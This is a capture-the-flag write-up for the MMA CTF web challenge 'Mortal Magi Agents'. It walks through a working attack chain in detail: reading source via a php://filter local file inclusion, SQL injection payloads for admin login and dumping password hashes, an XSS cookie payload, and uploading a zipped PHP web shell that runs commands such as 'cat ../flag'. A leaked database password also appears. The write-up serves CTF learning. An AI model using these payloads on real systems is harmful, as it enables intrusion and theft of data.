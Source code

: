 # MMA : Mortal Magi Agents

#### Author: ispo

**Description**:
> We start by looking at the urls:
>
> *  http://magiagents.chal.mmactf.link/?page=home
> *  http://magiagents.chal.mmactf.link/?page=news

Probably an LFI. Let's try:
  http://magiagents.chal.mmactf.link/?page=settings

Page returns the settings page which is available after login. NULL byte is not allowed, here
but LFI is possible as we shouldn't have seen settings page. Let's try php wrappers:

http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=home

Bingo! A base64 string is returned with the page:
PGRpdiBjbGFzcz0icGFnZS1oZWFkZXIiPjxoMT5Ib21lPC9oMT48L2Rpdj4KCjxpbWcgc3JjPSJtYWdpLmpwZyI+Cgo8P3
BocAppZiAoaXNzZXQoJF9TRVNTSU9OWyJhZG1pbiJdKSAmJiAkX1NFU1NJT05bImFkbWluIl0pIHsKICAgIGVjaG8gZmls
ZV9nZXRfY29udGVudHMoIi4uL2ZsYWciKTsKfQo=

We decode it and we get the page source:

    <div class="page-header"><h1>Home</h1></div>

    <img src="magi.jpg">

    <?php
    if (isset($_SESSION["admin"]) && $_SESSION["admin"]) {
        echo file_get_contents("../flag");
    }

We can do the same for the rest files (the code for each file is in separete file):

* http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=settings
* http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=news
* http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
* http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=index
* http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=login
* http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=logout
* http://magiagents.chal.mmactf.link/index.php?page=php://filter/convert.base64-encode/resource=db


Now we have all the source. Is it an SQLi? We can't do sqli in signup as it has a strong filter,
but we can do it on signin:

    $user = $_POST['user'];
    $password = $_POST["password"];    
    $db = connect_db();

    $results = $db->query("SELECT * FROM users WHERE (name = '$user' AND not banned)");

NOTE: if we open db.php we'll see this line:

      mysqli_connect('localhost', 'magiagents', '6fc1401279387c561b891c2672b1b418', 'magiagents');
      However  mysql server is not accessible from outside (obviously!).


Let's start our SQLi. First we register a user fooo2:fooo2. Then we login as:

    http://magiagents.chal.mmactf.link/login.php
    user=' or name='fooo2
    &password=fooo2
    &signin=

And we logged in as fooo2. Let's see how many columns exist in users table:

    user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63
                              UNION ALL (SELECT * FROM users WHERE name='
                              &password=fooo2

The above query returns a blank page (as we cause an internal MySQL error), but this query:

    user=fooo2' AND not banned) UNION ALL SELECT 0x61,0x62,0x63,0x64
                              UNION ALL (SELECT * FROM users WHERE name='
                              &password=fooo2

Can login as fooo2. Nice! We know that there are 4 columns. We can identify columns names just
by looking source code: name, hashed_password, avator, banned.

Let's see what's going on the admins table. We assume that there are <=4 columns there.

    user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1)
                                UNION ALL (SELECT * FROM users WHERE name='
                                &password=fooo2

This query gives an error, but this query:

    user=fooo2' AND not banned) UNION ALL SELECT (SELECT * FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
                                &password=fooo2

Doesn't. Thus there's a single column in admins table. Let's make a guess for the name:

    user=fooo2' AND not banned) UNION ALL SELECT (SELECT name FROM admins LIMIT 1), 0x62, 0x63, 0x64
                                UNION ALL (SELECT * FROM users WHERE name='
                                &password=fooo2

As long as we don't get a blank page back, the only column in admins table is called name.

Then we try to login as admin:admin

    user=') UNION ALL SELECT 'admin', 'd033e22ae348aeb5660fc2140aec35850c4da997',0x63,0x64
          UNION ALL (SELECT * FROM users WHERE name='
          &password=admin

We're logged in as admin but we can't get the flag:

        $results = $db->query("SELECT * FROM admins");

        while ($row = $results->fetchArray()) {
            if ($row["name"] === $user) {
                $_SESSION["admin"] = true;
                break;
            }
        }

The reason is that $user will contain the whole SQLi string and not the username "admin".
However the above example returns an image with filename "c" (0x63). Now we have a path
to extract data from the DB. By replacing the 0x63 in the previous query with a SELECT
statement we get some useful data:

    (SELECT group_concat(name) FROM admins)   ---> admin, asdf, m
    (SELECT group_concat(name,hashed_password) FROM users WHERE name='admin' OR name='asdf' OR name='m')
    --->  ffffffffffffffffffffffffffffffffffffffff,
      5feba136aea0208ee7f522eb2de1b315eb828512,
      6b0d31c0d563223024da45691584643ac78c96e8

We can dump all usernames and hashes but this is not the point. From these hashes we can crack
only the last one which is 'm'. Then we login as m:m and we get the flag:

  MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd}

I surprised from having a so simple username/password, and I contact the authors. They told me
that some else inserted that value, so this wasn't the correct way to solve it. Then I went back
and I was trying to solve it with the correct way. I looked for an injection in UPDATE, in order
to insert or change a row in admins table. This however wasn't possible as we have to craft an
injection statement that will be valid both in SELECT and in UPDATE. THe problem was the different
syntax and the extra "(" appeared in SELECT. We need a different way.


An XSS is possible but useless:

    user=' or /*<script>alert('xss:' + document.cookie)</script>*/ name='fooo2
    &password=fooo2

There's one thing that we miss all this time. The image upload. If we could upload a php file
then we could solve the challenge. The image checks are weak, so we can upload a php file.
However this file won't have the .php extension. Let's go back to our LFI and see if we
can do something else. From all the available wrappers, zlib is the most interesting.
zlib wrapper allow us to uncompress and execute a php file. This means that file doesn't
have to have the php extension. As zlib is for php 4 only, we'll use zip.

So, we login as fooo2:fooo2 and we upload a zip file, containing a foo.php file:

    <?php echo 'EXEC CODE</br>'; system( $_GET['cmd']) ?>

Then we upload the zip file which is stored at: avators/fooo2799a7dad87cf0745fd4da0d2fe8f6a661a7e6116
zip wrapper usage is (http://php.net/manual/en/wrappers.compression.php):

    zip://archive.zip#dir/file.txt

So we go back to our LFI and we try to access our file:

    http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=ls

Note that the file name is foo and not foo.php because index.php appends the .php extension:

    <?php
      include("$page.php");
      ?>

We do an ls and we can access directory files:

    avators css db.php fonts home.php index.php js login.php logout.php magi.jpg news.php settings.php

Finally we get tha flag:

    http://magiagents.chal.mmactf.link/index.php?page=zip://avators/fooo22d555a4891d6ebc52e722f991855b25356b68333%23foo&cmd=cat ../flag


MMA{5ded4df85bb8785f9cff08268703278c4e18e3fd}
